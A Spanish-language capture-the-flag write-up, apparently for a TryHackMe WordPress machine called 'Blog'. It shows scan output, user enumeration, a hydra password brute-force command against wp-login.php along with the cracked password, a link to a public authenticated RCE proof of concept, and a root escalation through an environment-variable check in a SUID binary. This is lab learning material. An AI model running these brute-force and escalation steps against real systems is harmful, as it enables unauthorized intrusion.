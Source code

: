 # Blog
Máquina de Wordpress un poco tricky de explotar sin MSF pero muy interesante

## Initial Scan
```
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)

```
## Enum
### HTTP 
Añadimos blog.thm a /etc/hosts
Teniendo un Wordpress lo primero es tirar de WPScan
```bash
wpscan --url blog.thm -e u
```
Enumeramos usuarios
```
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)
```
Tiramos de BruteForcing
```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
[80][http-post-form] host: 10.10.109.134   login: kwheel   password: cutiepie1
```
Sabiendo la version buscamos un Authenticated RCE y encontramos un CVE , como en esta casa no usamos Metasploit buscamos el POC del CVE
```
https://github.com/brianwrf/WordPress_4.9.8_RCE_POC
```
Una vez seguidos los pasos tenemos shell

## Privesc

Encontramos un SUID un tanto raro
```
/usr/sbin/checker
```
Lo observamos con ltrace y tenemos lo siguiente
```
getenv("admin") = nil
puts("Not an Admin"
    Not an Admin
  ) = 13
  ++ + exited(status 0) ++ +
```
Parce que lo que hace es verificar si una env variable tiene algún value
```
www-data@blog:/home/bjoel$ export admin=13
```
Y ya simplemente ejecutamos el SUID file en cuestión y pa dentro
```
www-data@blog:/home/bjoel$ /usr/sbin/checker
root@blog:/home/bjoel# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
Y listo
